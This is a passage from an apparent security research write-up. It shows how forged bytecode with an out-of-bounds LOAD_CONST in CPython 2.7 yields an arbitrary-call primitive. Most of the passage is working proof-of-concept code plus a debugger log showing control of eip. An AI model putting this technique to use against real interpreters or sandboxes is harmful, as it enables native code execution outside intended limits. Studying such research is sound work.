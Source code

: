 So basically the idea to use *CALL_FUNCTION* was a good one, but we will need to craft two different objects:

1. The first one will be a *PyObject* with *ob_type* pointing to the second object
2. The second object will be a *_typeobject* with *tp_call* the address you want to call

This is fairly trivial to do and will give us an absolute-call primitive without crashing the interpreter: s.w.e.e.t.

```python 
absolute call via CALL_FUNCTION
    import opcode
    import types
    import struct
    
    def pshort(s):
      return struct.pack('<H', s)
    
    def puint(s):
      return struct.pack('<I', s)
    
    def a():
      pass
    
    PyStringObject_to_char_array_offset = 20
    second_object = 'A' * 0x40 + puint(0xdeadbeef)
    addr_second_object = id(second_object)
    addr_second_object_controled_data = addr_second_object + PyStringObject_to_char_array_offset
    
    first_object = 'AAAA' + puint(addr_second_object_controled_data)
    addr_first_object = id(first_object)
    addr_first_object_controled_data = addr_first_object + PyStringObject_to_char_array_offset
    
    consts = ()
    s = puint(addr_first_object_controled_data)
    address_s = id(s) + PyStringObject_to_char_array_offset
    address_consts = id(consts)
    offset = ((address_s - address_consts - 0xC) / 4) & 0xffffffff
    
    a.func_code = types.CodeType(
      0, 0, 0, 0,
      chr(opcode.opmap['EXTENDED_ARG'])  + pshort(offset >> 16)     +
      chr(opcode.opmap['LOAD_CONST'])    + pshort(offset & 0xffff)  +
      chr(opcode.opmap['CALL_FUNCTION']) + pshort(0),
      consts, (), (), '', '', 0, ''
    )
    a()
```

And we finally get our primitive working :-)

```text 
call 0xdeadbeef
    (11d0.11cc): Access violation - code c0000005 (!!! second chance !!!)
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Python\Python275\python27.dll - 
    eax=01cc1030 ebx=00000000 ecx=00422e78 edx=00000000 esi=deadbeef edi=02e62df4
    eip=deadbeef esp=0027e78c ebp=02e62df4 iopl=0         nv up ei ng nz na po cy
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010283
    deadbeef ??              ???
```
